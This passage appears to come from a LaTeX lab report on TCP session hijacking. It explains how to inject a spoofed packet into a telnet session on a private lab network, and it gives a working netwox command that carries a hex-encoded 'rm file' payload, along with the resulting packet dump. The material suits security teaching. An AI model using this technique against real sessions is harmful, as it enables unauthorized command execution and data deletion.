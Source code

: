 \subsection{TCP session hijacking}
We establish a telnet session from the client to server and observe that single characters are sent and echoed back in plaintext. We also observe that the client sends a zero length ACK packet after server data transmission. It is also established that a single packet can contain multiple characters. To create a spoofed TCP packet and inject it into the stream we would need to set correct seq and ack numbers and pretend to be sending it from the client to the server. We can luckily reuse the seq and ack numbers from the last zero length TCP ACK packet sent form the client. Finally we encode the command "rm file" with a new line and send the spoofed packet .
\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Command for a spoofed TCP packet},
label={lst:spoof_tcp},
language=,
frame=single]
netwox 40 -c "16" -l "10.0.2.5" -m "10.0.2.6" -o "58640" -p "23" 
-q "1290285837" -r "3599268295" -H "726d2066696c650d0a"
IP______________________________________________________________.
|version|  ihl  |      tos      |            totlen             |
|___4___|___5___|____0x10=16____|___________0x0031=49___________|
|              id               |r|D|M|       offsetfrag        |
|_________0x4A5B=19035__________|0|0|0|________0x0000=0_________|
|      ttl      |   protocol    |           checksum            |
|____0x00=0_____|____0x06=6_____|____________0x5852_____________|
|                            source                             |
|___________________________10.0.2.5____________________________|
|                          destination                          |
|___________________________10.0.2.6____________________________|
TCP_____________________________________________________________.
|          source port          |       destination port        |
|_________0xE510=58640__________|___________0x0017=23___________|
|                            seqnum                             |
|_____________________0x4CE8330D=1290285837_____________________|
|                            acknum                             |
|_____________________0xD68879C7=3599268295_____________________|
| doff  |r|r|r|r|C|E|U|A|P|R|S|F|            window             |
|___5___|0|0|0|0|0|0|0|0|0|0|0|0|___________0x0000=0____________|
|           checksum            |            urgptr             |
|_________0x7716=30486__________|___________0x0000=0____________|
72 6d 20 66  69 6c 65 0d  0a                        # rm file..
\end{lstlisting}
\end{minipage}

